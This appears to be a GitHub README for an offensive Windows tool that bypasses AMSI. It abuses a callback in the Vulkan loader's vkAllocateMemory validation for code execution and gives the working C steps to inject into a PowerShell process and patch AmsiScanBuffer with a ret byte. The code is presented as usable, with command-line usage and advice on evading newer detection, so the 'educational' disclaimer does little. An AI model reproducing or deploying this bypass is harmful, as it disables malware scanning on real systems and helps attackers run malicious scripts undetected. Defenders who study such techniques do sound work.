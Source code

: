 # VK* API AMSI Bypass - The Vulkan Trampoline Hack

> *"When they patch one door, we find another..."*

**VK* API AMSI Bypass** exploits Vulkan graphics driver validation logic to execute arbitrary code and bypass Windows AMSI scanning. This technique uses the `vulkan-1.dll` trampoline functions as a proxy for code execution, making it undetectable by traditional API hooking detection methods.

## 🔬 The Technical Deep Dive

### The Core Concept: Vulkan Trampoline Exploitation

The Vulkan loader (`vulkan-1.dll`) has internal trampoline functions that perform **checksum validation** before executing callbacks. These functions are designed to validate Vulkan device objects, but we've turned them into our personal code execution engine.

### The Magic Struct: `EG_STR`

```c
typedef struct {
    uint64_t p, m, _1, _2, _3, _4, _5, _6, _7;
} EG_STR;
```

This innocent-looking struct is actually our **Proxy**:

- **`p`** → Points to `m` (the checksum location)
- **`m`** → Contains `0x10ADED040410ADED` (the magic checksum)
- **`_7`** → Our callback function pointer at offset 56 (0x38)

### The Vulkan Validation Logic

When `vkAllocateMemory()` is called, it performs this validation:

```assembly
mov rax, [rcx]        ; Get first struct member
mov r10, MAGIC         ; Load magic checksum
cmp [rax], r10         ; Compare [rax] with magic
jz valid_device       ; If equal, continue
call abort            ; Otherwise, crash and burn
```

**The trick**: `[rax]` means "dereference the address stored in rax". Since `p` points to `m`, and `m` contains the magic value, the check passes!

### Decompiled vkAllocateMemory Function

Here's the decompiled version of the `vkAllocateMemory_0` function that shows the exact validation logic:

```c
__int64 __fastcall vkAllocateMemory_0(__int64 *a1)
{
  __int64 v1; // rax

  if ( !a1 || (v1 = *a1) == 0 || *(_QWORD *)v1 != 0x10ADED040410ADEDLL )
  {
    sub_1800031B0(0, 392, 0, "vkAllocateMemory: Invalid device [VUID-vkAllocateMemory-device-parameter]");
    j_abort();
  }
  return (*(__int64 (**)(void))(v1 + 56))();
}
```

This decompiled code reveals:
- **Parameter validation**: Checks if `a1` is valid and dereferences it to get `v1`
- **Magic checksum check**: Compares `*(_QWORD *)v1` with `0x10ADED040410ADEDLL`
- **Callback execution**: Returns the result of calling the function pointer at `v1 + 56` (offset 56)
- **Error handling**: Calls `abort()` with a validation error message if checks fail

### The Callback Execution

After validation, the function does:

```assembly
mov rax, [rax + 0x38]  ; Get callback at offset 56
jmp rax                 ; Jump to our function
```

**Offset 56** = `7 * sizeof(uint64_t)` = `_7` member = our callback!

## 🎯 The AMSI Patching Process

### 1. Process Injection Setup
```c
target = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
```
We get a handle to the target process (the one running PowerShell with AMSI enabled).

### 2. AMSI Function Location
```c
HMODULE amsi = LoadLibraryW(L"amsi.dll");
PFN_AmsiScanBuffer scan = (PFN_AmsiScanBuffer)GetProcAddress(amsi, "AmsiScanBuffer");
uintptr_t offset = (uintptr_t)scan - (uintptr_t)amsi;
```
We calculate the **RVA (Relative Virtual Address)** of `AmsiScanBuffer` from the base of `amsi.dll`.

### 3. Target Process AMSI Discovery
```c
EnumProcessModules(target, mods, sizeof(mods), &cb);
for (size_t i = 0; i < (cb / sizeof(HMODULE)); i++) {
    GetModuleBaseNameW(target, mods[i], name, sizeof(name) / sizeof(wchar_t));
    if (_wcsicmp(name, L"amsi.dll") == 0) { tgt = mods[i]; break; }
}
```
We enumerate all loaded modules in the target process to find where `amsi.dll` is loaded.

### 4. The Patch
```c
uintptr_t addr = (uintptr_t)tgt + offset;
VirtualProtectEx(target, (LPVOID)addr, 1, PAGE_EXECUTE_READWRITE, &old);
unsigned char ret = 0xC3;
WriteProcessMemory(target, (LPVOID)addr, &ret, 1, NULL);
VirtualProtectEx(target, (LPVOID)addr, 1, old, &old);
```

**The payload**: `0xC3` = `ret` instruction
- **What it does**: Makes `AmsiScanBuffer` return immediately
- **Result**: AMSI scanning is completely bypassed
- **Why it works**: The function never reaches the actual scanning code, issue, 0xc3 is detected on newer builds, i recommend doing other patch, i left 0xc3(Ret) beacuse this is PoC

## 🎮 Usage

```bash
Vk-Amsi-Bypass.exe <PID>
```

---

*"In the game of cat and mouse, sometimes the mouse uses the cat's own rules against it."* 🐭🐱

**Disclaimer**: This is for educational purposes only. Use responsibly and ethically.

### Credits:
- https://github.com/whokilleddb/function-collections/tree/main/hijack_callbacks/vkAllocateMemory
- https://github.com/carved4/vulkan-proxy
